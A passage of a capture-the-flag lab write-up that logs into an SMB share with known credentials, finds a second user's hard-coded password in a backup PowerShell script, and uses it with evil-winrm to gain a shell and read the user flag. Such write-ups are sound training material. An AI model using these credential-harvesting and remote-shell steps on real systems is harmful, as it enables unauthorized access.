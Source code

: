 ```bash
smbclient //10.10.11.35/DEV --user=david.orelious --password='aRt$Lp#7t*VQ!3'

smb: \> ls
  .                                   D        0  Thu Mar 14 18:01:39 2024
  ..                                  D        0  Thu Mar 14 17:51:29 2024
  Backup_script.ps1                   A      601  Wed Aug 28 22:58:22 2024

                4168447 blocks of size 4096. 337554 blocks available
smb: \> get Backup_script.ps1
getting file \Backup_script.ps1 of size 601 as Backup_script.ps1 (0.5 KiloBytes/sec) (average 0.5 KiloBytes/sec)

```

The `DEV` share is accessible via the `david.orelious` user, and we have found one PowerShell script available in the share.

```bash
$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
```

The PowerShell script we discovered contains an additional set of credentials. Specifically, it reveals another user account- `emily.oscars`, with the associated password `Q!3@Lp#M6b7tVt`.

## Exploitation

We will use the credentials found in the PowerShell script to gain shell access using `evil-winrm`.

Evil-WinRM is a popular post-exploitation tool used by penetration testers and red teamers to interact with Windows systems over Windows Remote Management (WinRM). It provides a command-line interface to execute commands, upload/download files, and interact with the target system using valid credentials.

```powershell
evil-winrm -i 10.10.11.35 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'

*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> whoami
cicada\emily.oscars
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> type user.txt
312b64c6de4f********************
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> 
```

A successful login to the shell of emily allows us to obtain the user flag.
